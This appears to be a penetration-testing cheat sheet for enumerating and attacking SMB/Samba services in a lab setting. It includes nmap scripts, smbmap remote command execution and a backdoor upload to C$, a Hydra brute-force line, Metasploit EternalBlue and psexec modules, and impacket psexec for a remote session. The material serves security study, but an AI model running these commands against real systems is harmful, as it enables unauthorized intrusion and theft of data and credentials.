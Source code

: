 ## Nmap:

- `nmap -sU --top-ports 25` : port 137, 138 are udp smb ports. check if open.

### Nmap enum scripts

- `nmap -sU --top-ports 25 <ip>`
- ![Alt](./images/nmap-01.png)
- smb-protocols : list supported protocols
	- if v1 is enabled - EternalBlue exploit?
- smb-security-mode : guest account enabled?
- smb-os-discovery.nse : NetBIOS computer name and OS
- smb-enum-sessions : enum logged in users
- smb-enum-sessions --script-args smbusername=<user>,smbpassword=<pass>
- smb-enum-users.nse : list all users that exist on samba version
- ![Alt](./images/nmap-02-enumusers.png)
- smb-enum-shares : enum shares as guest
- smb-enum-shares,smb-ls --script-args smbusername=<user>,smbpassword=<pass> : Enumerating all the shared folders and drives then running the ls command on all the shared folders.
- smb-enum-shares --script-args smbusername=<user>,smbpassword=<pass>
	- if IPC$ share had RW perms - lets anon users enum shares, accounts etc
- smb-enum-users --script-args smbusername=<user>,smbpassword=<pass>: enum user acc on target sys
- smb-server-stats --script-args smbusername=<user>,smbpassword=<pass>
- smb-enum-domains --script-args smbusername=<user>,smbpassword=<pass>
- smb-enum-groups --script-args smbusername=<user>,smbpassword=<pass>
- smb-enum-services --script-args smbusername=<user>,smbpassword=<pass>

## SMBMAP: 

- Allows users to enumerate samba share
- Allows file upload/download/delete
- Permission enumeration (writable share, meet Metasploit)
- `smbmap -H <ip> -u guest -p "" -d <domain>` 
- ![Alt](./images/smbmap-01.png)
- `smbmap -H <ip> -u guest -p "" -d .`
- `smbmap -H <ip> -u <user> -p <pass> -x 'ipconfig'` : execute command on remote host
- `smbmap -H <ip> -u <user> -p <pass> -L` : list all drives (C: or D:)
- ![Alt](./images/smbmap-02.png)  ￼ 
- `smbmap -H <ip> -u <user> -p <pass> -r 'C$'` : list contents of C:\
- ![Alt](./images/smbmap-03.png) 
- `smbmap -H <ip> -u <user> -p <pass> --upload '/root/backdoor' 'C$\backdoor'`
- ![Alt](./images/smbmap-04.png) 
- `smbmap -H <ip> -u <user> -p <pass> --download 'C$\flag.txt'`
- ![Alt](./images/smbmap-05.png) 

## MSF:

- auxiliary/scanner/smb/smb_version - exact version of smb
- auxiliary/scanner/smb/smb2 - smb2 protocol supported?
- auxiliary/scanner/smb/smb_enumusers
- auxiliary/scanner/smb/smb_enumshares
- auxiliary/scanner/smb/pipe_auditor : determine what named pipes are accessible over SMB  (req creds)
- auxiliary/scanner/smb/smb_login
- auxiliary/scanner/smb/smb_ms17_010 - eternalblue vuln tester
- exploit/windows/smb/psexec

## Hydra:

- `hydra -l <user> -P <pass_wordlist> 192.212.251.3 smb`
	
## Nmblookup:

- `nmblookup -A <ip>`
- ![Alt](./images/nmblookup-01.png) 
	￼

## SMBclient:

- `smbclient -L <ip> -N` : list sharenames and domains with no pass with anonymous connection.
- `smbclient -L <ip> -U <user>` : authenticate as a user with legit creds
- `smbclient //<ip>/public -N`
- `smbclient //<ip>/public -U <user> 
		smb> ls
		smb> get flag`

## RPCclient:

- `rpcclient -U "" -N <ip>` : check anonymous login allowed - if no errors
- rpcclient $>
	- srvinfo : os version of samba server
	- enumdomgroups : enum domain groups
	- enumdomusers : enum domain users
	- lookupnames admin : get SID of user "admin"

## Enum4linux:

- `enum4linux -o <ip>` : get os version
- `enum4linux -U <ip>` : enum users (use -u <user> -p <pass> for auth enum)
- `enum4linux -S <ip>` : enum shares
- `enum4linux -G <ip>` : enum domain groups
- `enum4linux -i <ip>` : get printer info
- ![Alt](./images/enum4linux-01.png) 
- `enum4linux -r -u "admin" -p "password" <ip>` : enum users via RID cycling. S-1-22-1-1003 etc.

## PSExec (Authenticated):

- cp /usr/share/doc/python3-impacket/examples/psexec.py /root/Desktop
- chmod +x psexec.py
- python3 psexec.py Administrator@ip
- this will provide remote session

## References:

1. Samba (https://www.samba.org/)
2. smbclient (https://www.samba.org/samba/docs/current/man-html/smbclient.1.html)
3. rpcclient (https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html)
4. nmblookup (https://www.samba.org/samba/docs/current/man-html/nmblookup.1.html)
5. enum4Linux (https://tools.kali.org/information-gathering/enum4linux)
6. THC Hydra (https://tools.kali.org/password-attacks/hydra)
7. smbmap (https://tools.kali.org/information-gathering/smbmap)
8. Metasploit Module: SMB Session Pipe Auditor (https://www.rapid7.com/db/modules/auxiliary/scanner/smb/pipe_auditor)